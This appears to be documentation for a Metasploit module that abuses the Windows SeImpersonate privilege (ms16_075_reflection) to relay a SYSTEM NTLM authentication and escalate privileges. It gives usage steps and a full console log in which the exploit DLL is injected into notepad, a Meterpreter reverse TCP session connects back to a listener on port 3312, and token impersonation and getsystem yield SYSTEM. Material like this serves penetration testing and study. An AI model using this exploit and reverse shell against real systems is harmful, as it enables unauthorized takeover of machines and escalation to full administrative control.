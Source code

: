 ## Introduction

  This module will abuse the SeImperonsate privilege commonly found in
services due to the requirement to impersonate a client upon
authentication. As such it is possible to impersonate the SYSTEM account
and relay its NTLM hash to RPC via DCOM. The DLL will perform a MiTM
attack at which intercepts the hash and relay responses from RPC to be
able to establish a handle to a new SYSTEM token. Some caveats : Set
your target option to match the architecture of your Meterpreter
session, else it will inject the wrong architecture DLL into the process
of a separate architecture. Additionally, after you have established a
session, you must use incognito to imperonsate the SYSTEM Token.

## Usage

  You'll first need to obtain a session on the target system.
  Next, once the module is loaded, one simply needs to set the
```payload``` and ```session``` options, in addition to architecture.

  Your user at which you are trying to exploit must have `SeImpersonate`
privileges.

  The module has a hardcoded timeout of 20 seconds, as the attack may
not work immediately and take a few seconds to start. Also, check to
make sure port 6666 is inherently not in use else the exploit will not
run properly

## Scenarios
```
  Name Current Setting Required Description
   ---- --------------- -------- -----------
   SESSION 48 yes The session to run this module on. Payload options 
(windows/x64/meterpreter/reverse_tcp):
   Name Current Setting Required Description
   ---- --------------- -------- -----------
   EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, 
process, none)
   LHOST ens3 yes The listen address (an interface may be specified)
   LPORT 3312 yes The listen port Exploit target:
   Id Name
   -- ----
   1 Windows x64 msf exploit(windows/local/ms16_075_reflection) > run 
[*] Started reverse TCP handler on -snip-:3312 [*] Launching notepad to 
host the exploit... [+] Process 3564 launched. [*] Reflectively 
injecting the exploit DLL into 3564... [*] Injecting exploit into 
3564... [*] Exploit injected. Injecting payload into 3564... [*] Payload 
injected. Executing exploit... [+] Exploit finished, wait for (hopefully 
privileged) payload execution to complete. [*] Sending stage (206403 
bytes) to -snip- [*] Meterpreter session 49 opened (-snip-:3312 -> 
-snip-:55306) at 2018-08-03 01:54:18 -0400 meterpreter > load incognito 
Loading extension incognito...Success. meterpreter > impersonate_token 
'NT AUTHORITY\SYSTEM' [-] Warning: Not currently running as SYSTEM, not 
all tokens will be available
             Call rev2self if primary process token is SYSTEM [-] No 
delegation token available [+] Successfully impersonated user NT 
AUTHORITY\SYSTEM meterpreter > getsystem -t 1 ...got system via 
technique 1 (Named Pipe Impersonation (In Memory/Admin)). meterpreter > 
```
